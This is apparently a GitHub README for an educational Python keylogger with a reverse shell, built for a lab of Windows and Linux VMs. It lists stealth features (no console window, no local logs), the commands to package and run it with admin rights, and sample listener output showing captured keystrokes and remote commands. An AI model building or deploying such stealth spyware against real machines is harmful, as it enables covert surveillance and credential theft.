 Stealthy Python Keylogger with Reverse Shell 🕵️‍♂️

Welcome to my Stealthy Python Keylogger project! 🎉 A cybersecurity tool built for educational purposes, showcasing skills from Hack The Box challenges and my Certified Penetration Testing Specialist (CPTS) certification. 
⚠️ Ethical Disclaimer: For educational use only in controlled environments (e.g., personal VMs). Unauthorized use is illegal and unethical. Use responsibly to learn cybersecurity.
Demo Video 🎥
Watch it in action: Demo Video (replace with your Google Drive link)
Features 🚀

🖥️ Silent Execution: No console window on Windows.
⌨️ System-Wide Keylogging: Captures all keystrokes (admin required).
🌐 Real-Time Logging: Instant keystroke transmission to Linux listener.
🛠️ Command Support: dir, whoami, get_logs, exit.
🕵️ No Local Logs: Zero traces on the target.
📝 Persistent Logging: Saves all data on the listener.
🔒 Packaged Executable: Password-protected keylogger.exe.

Files 📂

keylogger.py: Windows keylogger script.
listener.py: Linux listener script.
dist/keylogger.zip: Password-protected executable (contact for password).
keylogger_icon.png: Project icon.
.gitignore: Excludes build artifacts.

Installation 🔧
Windows VM
pip install keyboard pyinstaller

Linux VM
sudo apt install python3

Update LISTENER_IP in keylogger.py to your Linux VM IP (e.g., 192.168.65.130).
Packaging 📦
pyinstaller --onefile --noconsole keylogger.py

Output in dist/keylogger.zip (contact for password).
Usage 📚

Start listener:python3 listener.py


Run keylogger (admin):Start-Process .\dist\keylogger.exe -Verb runAs


Type in any app; logs appear on listener.
Send commands: whoami, dir, get_logs, exit.

Example Output 📈
Listener Console:
Listening on 0.0.0.0:4444...
Connection from ('192.168.65.133', 50499)
[*] Connected from Windows
KEYSTROKE: [2025-08-07 08:00:23] w
KEYSTROKE: [2025-08-07 08:00:24] h
KEYSTROKE: [2025-08-07 08:00:24] o
> dir
Sent command: dir
Volume in drive C has no label...
> whoami
Sent command: whoami
desktop-3ckfkt3\ajnur
> get_logs
Sent command: get_logs
[*] Logs:
LOG: [2025-08-07 08:00:23] w
LOG: [2025-08-07 08:00:24] h
LOG: [2025-08-07 08:00:24] o
> exit
Sent command: exit
Connection closed

Notes 📝

Admin Required: For Windows keylogging.
Dependencies: keyboard bundled in keylogger.exe.
Portfolio: Showcases networking and system programming skills.

Connect 🤝

LinkedIn: Ajnur Radovic
Email: ajnurradovic1@gmail.com

License 📜
MIT License
